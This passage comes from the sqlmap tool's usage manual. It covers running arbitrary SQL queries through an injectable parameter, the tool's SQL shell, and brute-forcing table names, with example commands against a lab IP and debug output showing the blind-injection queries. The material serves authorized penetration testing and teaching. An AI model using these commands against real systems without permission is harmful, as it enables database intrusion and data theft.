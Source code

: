 ```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --\
sql-query "SELECT 'foo'" -v 1

[...]
[hh:mm:14] [INFO] fetching SQL SELECT query output: 'SELECT 'foo''
[hh:mm:14] [INFO] retrieved: foo
SELECT 'foo':    'foo'

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --\
sql-query "SELECT 'foo', 'bar'" -v 2

[...]
[hh:mm:50] [INFO] fetching SQL SELECT query output: 'SELECT 'foo', 'bar''
[hh:mm:50] [INFO] the SQL query provided has more than a field. sqlmap will now 
unpack it into distinct queries to be able to retrieve the output even if we are
 going blind
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS 
VARCHAR(8000)), (CHAR(32)))
[hh:mm:50] [INFO] retrieved: foo
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VA
RCHAR(8000)), (CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar':    'foo, bar'
```

As you can see, sqlmap splits the provided query into two different `SELECT` statements then retrieves the output for each separate query. 

If the provided query is a `SELECT` statement and contains a `FROM` clause, sqlmap will ask you if such statement can return multiple entries. In that case the tool knows how to unpack the query correctly to count the number of possible entries and retrieve its output, entry per entry. 

The SQL shell option allows you to run your own SQL statement interactively, like a SQL console connected to the database management system. This feature provides TAB completion and history support too. 

## Brute force

These switches can be used to run brute force checks.

### Brute force tables names

Switch: `--common-tables`

There are cases where switch `--tables` can not be used to retrieve the databases' table names. These cases usually fit into one of the following categories: 

* The database management system is MySQL **< 5.0** where `information_schema` is not available.
* The database management system is Microsoft Access and system table `MSysObjects` is not readable - default setting.
* The session user does not have read privileges against the system table storing the scheme of the databases.
